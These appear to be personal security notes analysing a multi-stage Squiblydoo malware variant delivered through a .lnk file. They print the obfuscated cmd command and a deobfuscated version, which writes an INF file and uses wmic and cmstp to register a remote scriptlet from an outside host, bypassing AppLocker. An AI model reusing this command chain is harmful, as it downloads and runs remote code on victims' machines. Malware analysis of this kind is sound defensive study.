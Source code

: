```yaml
---
title: Attack - RCE Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description: 
excerpt_separator: 
categories: [1CyberAttack, Vulnerability]
tags: [CyberAttack]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections. 
- The first part `creates a “RANDOM.inf” file` 
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c


smtp:
Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run cmstp from the directory that contains the <serviceprofilefilename>.exe file.

<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]

Syntax 2
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```



```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items” 
&& call set “EhWLDvbm4162=%Items:~4,1%=s” 
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na” 
&& set “EhWLDvbm85714=a” 
&& set “EhWLDvbm13835=t” 
&& set “EhWLDvbm9306=d” 
&& call set “EhWLDvbm1449=%random%.inf” 
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf” 
&& set “EhWLDvbm59779=.” 
&& set “EhWLDvbm19532=“^” 
&& (for %r in (
    “[version]” 
    “signature=$Windows NT$” 
    “[destinationdirs]” 
    “2A436=01” 
    “[defaultinstall_singleuser]” 
    “UnRegisterOCXs=47E0” 
    “delfiles=2A436" 
    “[“UnRegisterOCXs]” 
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt” 
    “[“delfiles]” 
    “%random%.inf” 
    “[strings]” 
    “EhWLDvbm23745=t” 
    “EhWLDvbm69079=h” 
    “EhWLDvbm23092=:” 
    “EhWLDvbm55506=s” 
    “EhWLDvbm20494=/” 
    “EhWLDvbm59234=b” 
    “EhWLDvbm2079=org” 
    “servicename=' ‘” 
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.
